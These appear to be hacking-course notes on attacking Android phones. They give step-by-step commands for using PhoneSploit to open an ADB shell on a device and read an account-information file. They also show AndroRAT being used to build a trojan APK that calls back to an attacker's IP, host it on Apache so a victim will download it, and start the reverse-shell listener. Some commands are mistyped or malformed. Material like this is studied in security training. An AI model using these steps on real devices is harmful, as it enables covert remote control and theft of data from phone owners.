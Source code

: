 # Hacking Mobile Platforms

## PhoneSploit

**Exploit the Android Platform through ADB using PhoneSploit**

```bash
python3 -m pip install colorama

python3 phonesploit.py
```

by option 3 enter ip of the device  and when ever asked for device name enter same ip

Example

apt-get install adb
git clone [github.com/01010000/phonesploit](http://github.com/01010000/phonesploit)
cd phonesploit
pyhton3 [phonesploit.py](http://phonesploit.py/)
3 (Connect to new phone)
Add IP address of android device
4 (Access shell on phone)
IP address again of android device
pwd
ls
cd sdcard
ls
cd downloads
cat accnt-info.txt

## AndroRAT

**Hack an Android Device by Creating APK File using AndroRAT**

```bash
python3 androRAT.py --build -i <attacker's IP> -p <port> -o <outputfile.apk>
```

for delivering apk to remote mobile device

```bash
mkdir /var/www/html/share
chmod -755 /var/www/html/share
chown -R 755 /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share

cp filepath/outputfile.apk /var/www/html/share

service apache2 start
```

for responder

```bash
python3 androRAT.py --shell -i 0.0.0.0 -p <port>
```

## Sixo Online APK Analyzer

**Analyze a Malicious App using Online Android Analyzers**